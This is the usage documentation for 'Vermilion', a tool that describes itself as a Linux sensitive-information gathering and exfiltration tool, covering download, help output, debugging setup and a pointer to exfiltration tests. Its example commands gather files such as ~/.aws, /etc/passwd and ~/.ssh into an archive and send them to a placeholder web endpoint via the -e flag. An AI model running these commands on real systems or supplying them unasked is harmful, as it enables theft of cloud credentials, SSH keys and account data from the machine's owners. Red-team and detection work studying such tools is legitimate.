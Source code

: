 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.6.0/vermilion_0.6.0_linux_amd64.tar.gz
tar -xzf vermilion_0.6.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

example output:  
```console
Vermilion - Linux sensitive info gathering and exfiltration tool

Usage:
  vermilion [flags]

Flags:
  -e, --endpoint string   Exfiltration endpoint URL
  -h, --help              help for vermilion
  -n, --noexf             Skip exfiltration and save locally
  -p, --paths string      Comma-separated list of paths to gather sensitive data from
```  

To run the tool with no exfiltration run:  

```console
vermilion --noexf
```  

The previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  

If you want to only gather files from specific paths, specify the `-p` argument, for example:  
```console
vermilion -p ~/.aws,/etc/passwd,~/.ssh
```  



If you want to specify an endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


